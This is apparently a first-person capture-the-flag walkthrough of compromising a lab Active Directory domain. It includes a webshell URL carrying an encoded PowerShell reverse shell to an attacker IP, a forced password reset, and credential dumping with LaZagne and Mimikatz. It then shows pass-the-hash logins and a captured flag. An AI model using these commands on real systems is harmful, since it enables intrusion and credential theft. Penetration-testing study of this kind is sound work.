

And knowing the base path from that PHP info file:



And indeed I know where are the files saving so far:  


Which means It should be able to write to a file right?  




Which means I have access to a first RCE:  


Now sending this I get my first shell baby!

```http
http://10.13.38.42/dev/figa.php?cmd=powershell%20-e%20JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA0AC4AMQAwADUAIgAsADQANAA0ADQAKQA7ACQAcwB0AHIAZQBhAG0AIAA9ACAAJABjAGwAaQBlAG4AdAAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAeQB0AGUAcwAgAD0AIAAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAIAA9ACAAJABzAHQAcgBlAGEAbQAuAFIAZQBhAGQAKAAkAGIAeQB0AGUAcwAsACAAMAAsACAAJABiAHkAdABlAHMALgBMAGUAbgBnAHQAaAApACkAIAAtAG4AZQAgADAAKQB7ADsAJABkAGEAdABhACAAPQAgACgATgBlAHcALQBPAGIAagBlAGMAdAAgAC0AVAB5AHAAZQBOAGEAbQBlACAAUwB5AHMAdABlAG0ALgBUAGUAeAB0AC4AQQBTAEMASQBJAEUAbgBjAG8AZABpAG4AZwApAC4ARwBlAHQAUwB0AHIAaQBuAGcAKAAkAGIAeQB0AGUAcwAsADAALAAgACQAaQApADsAJABzAGUAbgBkAGIAYQBjAGsAIAA9ACAAKABpAGUAeAAgACQAZABhAHQAYQAgADIAPgAmADEAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwAgACkAOwAkAHMAZQBuAGQAYgBhAGMAawAyACAAPQAgACQAcwBlAG4AZABiAGEAYwBrACAAKwAgACIAUABTACAAIgAgACsAIAAoAHAAdwBkACkALgBQAGEAdABoACAAKwAgACIAPgAgACIAOwAkAHMAZQBuAGQAYgB5AHQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcwBlAG4AZABiAGEAYwBrADIAKQA7ACQAcwB0AHIAZQBhAG0ALgBXAHIAaQB0AGUAKAAkAHMAZQBuAGQAYgB5AHQAZQAsADAALAAkAHMAZQBuAGQAYgB5AHQAZQAuAEwAZQBuAGcAdABoACkAOwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```

# Moving forward

On the side I see that my user can reset **EWalters** credentials and so far I have no idea if this is a rabbit hole or what?  


I can also see traces on how to get to **Christine's** credentials?

```bash
PS C:\AVTest> ls


    Directory: C:\AVTest


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----         9/14/2022   4:46 PM        4870584 KasperskyRemovalTool.exe                                             
-a----         9/14/2022   7:05 PM            235 readme.txt                                                           


PS C:\AVTest> cat r	
PS C:\AVTest> cat readme.txt
Since none of the AV Tools we tried here in the lab satisfied our needs it's time to clean them up.
I asked Christine to run them a few times, just to be sure.

Let's just hope we don't have to set this lab up again because of this.
PS C:\AVTest> 


```

Now she is indeed a domain admin:  


But I can try to reset password of Eric:

```bash
└─# netexec smb 10.13.38.42 -u rsmith -p IHateEric2  -M change-password -o USER='EWALTERS' NEWPASS='Coglione1!'
SMB         10.13.38.42     445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.42     445    LABDC            [+] lab.trusted.vl\rsmith:IHateEric2 
CHANGE-P... 10.13.38.42     445    LABDC            [+] Successfully changed password for EWALTERS
                                                                                                      
```

And Eric has winrm permissions:



# Inteded way

Now I suspect I need to use the Eric permission to get to Christine creds as she it domain admin.

EDIT: apparently I checked here and seems like it is not about NTLM relay rather than a DDL disect and honestly I don't like that crap so I will avoid this.

# Unintended way

SInce I have already NTSystem(obtained via the PHP webshell on the LAB server) I can upload Lazagne.exe and obtain the hashes I really need.

```bash
PS C:\Temp> ./LaZagne.exe all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for 3af9b984-1427-4737-a5a7-af68740a2438
[+] System masterkey decrypted for 3e2a8705-4b41-4ab5-83ba-c75b45ad8f61
[+] System masterkey decrypted for 447d8c17-487d-42e2-9b5c-0015318d2ae4
[+] System masterkey decrypted for 4716c57c-3c3f-4658-85e4-d17a1b9bbe91
[+] System masterkey decrypted for 6169ad5b-3847-4cd7-8430-192384efe7a7
[+] System masterkey decrypted for 6b29d08a-203c-4a92-a287-0ad1fb388850
[+] System masterkey decrypted for 79fb20fd-d1c3-410e-beb5-81edfa7c6c8a
[+] System masterkey decrypted for 80f1406b-a52f-4c6e-a498-8ef3297409a7
[+] System masterkey decrypted for 86c3defd-4ebe-4b3a-8b70-8ab64269a752
[+] System masterkey decrypted for b4f8f679-3fbb-4778-a62c-7e3474543ed4
[+] System masterkey decrypted for b9dadacc-c49a-46fb-ac91-165a46bb413a
[+] System masterkey decrypted for ba34ac75-b04e-411d-8b9e-b96cc94c4303
[+] System masterkey decrypted for bf0e6085-9668-457f-91be-25ab580b81f9
[+] System masterkey decrypted for d6642dfc-43d0-41a8-91b6-95ad245ffdc3
[+] System masterkey decrypted for deeb03ff-0a44-49f6-96a1-958af7b5c7d3
[+] System masterkey decrypted for e09fd7a1-9bea-420f-8561-1b33d0645800
[+] System masterkey decrypted for ea30d081-71bb-4cc1-900d-655a32021a58
[+] System masterkey decrypted for eb547be5-741e-45c5-9e56-62f9b97ed69e
[+] System masterkey decrypted for f8b140b6-a4a2-4a39-9da2-183aa0d82705
[+] System masterkey decrypted for fb8777da-42b3-4dce-bc4a-c101ed86364e

########## User: SYSTEM ##########

------------------- Lsa_secrets passwords -----------------

$MACHINE.ACC
0000   F0 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................
0010   5D E6 A0 C9 8E C5 E0 F1 BE 55 98 C5 55 92 CD 28    ]........U..U..(
0020   54 39 EC 6C 6E EF DC 22 6D 12 FB D9 05 F4 E3 99    T9.ln.."m.......
0030   0E 1C 1E D1 B0 B5 07 5A 7E 55 F5 31 C8 D8 DA B0    .......Z~U.1....
0040   A7 23 23 03 81 28 5D 59 92 BB D4 21 46 39 5D F4    .##..(]Y...!F9].
0050   9D 62 0C 6D 90 02 54 5A C0 9F 31 12 51 E2 01 7D    .b.m..TZ..1.Q..}
0060   C9 A3 23 CA 44 D8 49 30 4F 78 16 97 BB E7 86 84    ..#.D.I0Ox......
0070   E6 9C 49 E6 AF 6F 55 DD 67 88 AC 0B 23 99 77 C4    ..I..oU.g...#.w.
0080   57 28 20 F4 8B 50 03 12 45 D8 96 F1 8A 77 0A 5E    W( ..P..E....w.^
0090   72 C8 CD 2E 9F 45 5E 5A B2 44 3C 54 A5 1D BD D0    r....E^Z.D<T....
00A0   C3 47 53 A5 F6 53 ED 73 F9 3D 33 82 84 36 08 9F    .GS..S.s.=3..6..
00B0   F8 7F 80 1C BC 9F 38 49 57 24 06 B5 B4 76 55 8E    ......8IW$...vU.
00C0   98 A4 93 FD 3E 1D DC FC 4E AE 22 11 91 F5 0C 8E    ....>...N.".....
00D0   EF F7 AC 15 44 0E 41 B1 F7 0D 89 E6 8D A4 25 FF    ....D.A.......%.
00E0   DE 04 80 1F 6A 00 AF 84 73 E6 87 03 69 2E BB 83    ....j...s...i...
00F0   44 B9 52 7F 80 A0 02 7F 17 AE 42 81 B5 69 F3 A9    D.R.......B..i..
0100   DA 18 77 CA EA 8E 93 EA 05 BD 1A 3C 0A 16 CB 5E    ..w........<...^

DPAPI_SYSTEM
0000   01 00 00 00 34 BB D5 03 80 1A 43 2E BA 3E 78 9E    ....4.....C..>x.
0010   44 52 F4 94 B5 B4 13 42 CE 5E AC 76 A1 BF B4 40    DR.....B.^.v...@
0020   01 1B C4 B5 D0 C1 4E 2B 1F 84 2E 13                ......N+....

NL$KM
0000   40 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    @...............
0010   B6 96 C7 7E 17 8A 0C DD 8C 39 C2 0A A2 91 24 44    ...~.....9....$D
0020   A2 E4 4D C2 09 59 46 C0 7F 95 EA 11 CB 7F CB 72    ..M..YF........r
0030   EC 2E 5A 06 01 1B 26 FE 6D A7 88 0F A5 E7 1F A5    ..Z...&.m.......
0040   96 CD E5 3F A0 06 5E C1 A5 01 A1 CE 8C 24 76 95    ...?..^......$v.
0050   5F 1C 26 44 58 74 3B DE 38 84 04 5B 35 32 52 D2    _.&DXt;.8..[52R.


------------------- Vault passwords -----------------

[-] Password not found !!!
URL: Domain:batch=TaskScheduler:Task:{56CBC9F9-08B5-4921-A201-99B41A2F5785}
Login: LAB\cpowers


[+] 0 passwords have been found.
For more information launch it again with the -v option

elapsed time = 14.812717199325562
PS C:\Temp> 
```

But it failed, so the other way is to use Metasploit with the Mimikatz(KIWI) module loaded in memory, which allows you to dump the NTLM creds for Christine:

```bash
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain  NTLM                              SHA1                                      DPAPI
--------  ------  ----                              ----                                      -----
LABDC$    LAB     5d34d5800463fcf065d3f2aca4bd7deb  c663ba095d25cd762befac9f18e3a016bc373c42  c663ba095d25cd762befac9f18e3a016
cpowers   LAB     322db798a55f85f09b3d61b976a13c43  e845d39122d58246ff7e28a282e8ed0e19ede373  01644e36ac919f8de1101ff9fde5a7fb

wdigest credentials
===================

Username  Domain  Password
--------  ------  --------
(null)    (null)  (null)
LABDC$    LAB     (null)
cpowers   LAB     (null)

kerberos credentials
====================

Username  Domain          Password
--------  ------          --------
(null)    (null)          (null)
LABDC$    lab.trusted.vl  5d e6 a0 c9 8e c5 e0 f1 be 55 98 c5 55 92 cd 28 54 39 ec 6c 6e ef dc 22 6d 12 fb d9 05 f4 e3 99 0e 1c 1e d1 b0 b5 07 5a 7e 55 f5 31 c8 d8 da b0 a7 23 23 03 81 28 5d 59 92 bb d4 21 46 39 5d f4 9d 62 0c 6d 90 02 54 5a c0 9f 31 12 51 e2 01 7d c9 a3 23 ca 44 d8 49 30 4f 78 16 97 bb e7 86 84 e6
                          9c 49 e6 af 6f 55 dd 67 88 ac 0b 23 99 77 c4 57 28 20 f4 8b 50 03 12 45 d8 96 f1 8a 77 0a 5e 72 c8 cd 2e 9f 45 5e 5a b2 44 3c 54 a5 1d bd d0 c3 47 53 a5 f6 53 ed 73 f9 3d 33 82 84 36 08 9f f8 7f 80 1c bc 9f 38 49 57 24 06 b5 b4 76 55 8e 98 a4 93 fd 3e 1d dc fc 4e ae 22 11 91 f5 0c 8e ef f7
                          ac 15 44 0e 41 b1 f7 0d 89 e6 8d a4 25 ff de 04 80 1f 6a 00 af 84 73 e6 87 03 69 2e bb 83 44 b9 52 7f 80 a0 02 7f 17 ae 42 81 b5 69 f3 a9
cpowers   LAB.TRUSTED.VL  (null)
labdc$    LAB.TRUSTED.VL  (null)

```

But also the local administrative creds on the server:

```bash
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : LABDC
SysKey : 68580865f85a4743db214876adf784df
Local SID : S-1-5-21-122658934-4213567330-3650789002

SAMKey : 2d01f5cd0a8c4fa19e8b1cf1f21cd76e

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 86a9ee70dfd64d20992283dc5721b475

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount


```

But for some reasons it is not working?

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Trusted]
└─$ netexec smb 10.13.38.42 -u Administrator -H 86a9ee70dfd64d20992283dc5721b475 --local-auth 
SMB         10.13.38.42     445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:LABDC) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.42     445    LABDC            [-] LABDC\Administrator:86a9ee70dfd64d20992283dc5721b475 STATUS_LOGON_FAILURE 

```

But Christina's creds works fine:

```bash
┌──(millycash㉿kali-bello)-[~/Downloads/Trusted]
└─$ netexec smb 10.13.38.42 -u cpowers -H 322db798a55f85f09b3d61b976a13c43
SMB         10.13.38.42     445    LABDC            [*] Windows Server 2022 Build 20348 x64 (name:LABDC) (domain:lab.trusted.vl) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.13.38.42     445    LABDC            [+] lab.trusted.vl\cpowers:322db798a55f85f09b3d61b976a13c43 (Pwn3d!)
                                                                                                                                                                                                                                                                                                                               
```

Now I will use those creds and obtain the first flag!

```bash
*Evil-WinRM* PS C:\Users\Administrator\desktop> ls


    Directory: C:\Users\Administrator\desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/15/2025   4:43 AM             41 flag.txt


*Evil-WinRM* PS C:\Users\Administrator\desktop> cat flag.txt
TRUSTED{c7dfc2455abfecd38c8136da1c75673f}
*Evil-WinRM* PS C:\Users\Administrator\desktop> 
```

I will move on to the other DC.

&nbsp;